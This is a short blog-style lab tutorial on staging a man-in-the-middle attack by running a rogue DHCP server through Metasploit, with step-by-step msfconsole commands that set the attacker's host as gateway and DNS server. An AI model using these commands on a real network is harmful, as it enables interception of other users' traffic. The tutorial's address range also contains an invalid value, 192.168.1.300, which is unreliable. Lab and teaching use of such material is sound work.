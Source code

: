```yaml
---
layout: post
title: Create Fake DHCP Using Metasploit  
categories: [Hacking Lab]
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [fake dhcp, dhcp spoofing ]
---
```

There is a dangerous type of cyber attack called Man In The Middle. Attacker can make all network traffic go through their system.  
One of the ways of this attack is that the attacker has to make the system being attacked to recognize the attacker's system as the gateway(router)    
that sends all network traffic through here. There are many ways to do this, and the popular way is fake DHCP server.  
## 1. Network Model:  
* **gateway: 192.168.1.1** 
* **netmask: 255.255.255.0**  
* **attacker: 192.168.1.92**  


## 2. Create Fake DHCP:  
Open Metasploit:  
```
msfconsole
```  
```
use auxiliary/server/dhcp
```  
```
show options
```
![](/assets/img/2020-27-2-show-options.png)

Setup DHCP server:  
```
set dhcpipstart 192.168.1.200
```
```
set dhcpipend 192.168.1.300
```
```
set netmask 255.255.255.0
```
```
set broadcast 192.168.1.255
```
```
set router 192.168.1.92
```
```
set dnsserver 192.168.1.92
```
```
set srvhost 192.168.1.92
```
```
run
```
Network information of another machine before and after run fake DHCP:  
*before*  

![](/assets/img/2020-27-2-before.png)  

*after*  

![](/assets/img/2020-27-2-after.png)

